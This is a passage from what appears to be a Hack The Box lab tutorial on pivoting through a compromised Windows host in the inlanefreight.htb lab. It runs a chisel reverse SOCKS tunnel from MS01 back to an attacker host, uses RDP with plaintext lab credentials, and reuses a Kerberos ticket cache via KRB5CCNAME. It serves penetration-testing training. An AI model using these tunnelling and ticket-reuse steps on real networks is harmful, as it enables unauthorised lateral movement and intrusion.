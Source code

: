 **Host File Modified:**

```shell-session
realCustampin@htb[/htb]$ cat /etc/hosts

# Host addresses

172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01
```

**Proxychains Config File:**

```shell-session
realCustampin@htb[/htb]$ cat /etc/proxychains.conf

...SNIP...

[ProxyList]
socks5 127.0.0.1 1080
```

**Download Chisel to Our Attack Host:**

```shell-session
realCustampin@htb[/htb]$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
realCustampin@htb[/htb]$ gzip -d chisel_1.7.7_linux_amd64.gz
realCustampin@htb[/htb]$ mv chisel_* chisel && chmod +x ./chisel
realCustampin@htb[/htb]$ sudo ./chisel server --reverse 

2022/10/10 07:26:15 server: Reverse tunneling enabled
2022/10/10 07:26:15 server: Fingerprint 58EulHjQXAOsBRpxk232323sdLHd0r3r2nrdVYoYeVM=
2022/10/10 07:26:15 server: Listening on http://0.0.0.0:8080
```

**Connect to MS01**

```shell-session
realCustampin@htb[/htb]$ xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
```

**Execute Chisel from MS01:**

```cmd-session
C:\htb> c:\tools\chisel.exe client 10.10.14.33:8080 R:socks

2022/10/10 06:34:19 client: Connecting to ws://10.10.14.33:8080
2022/10/10 06:34:20 client: Connected (Latency 125.6177ms)
```

**Setting the KRB5CCNAME environment variable:**

```shell-session
realCustampin@htb[/htb]$ export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

## Using Impacket
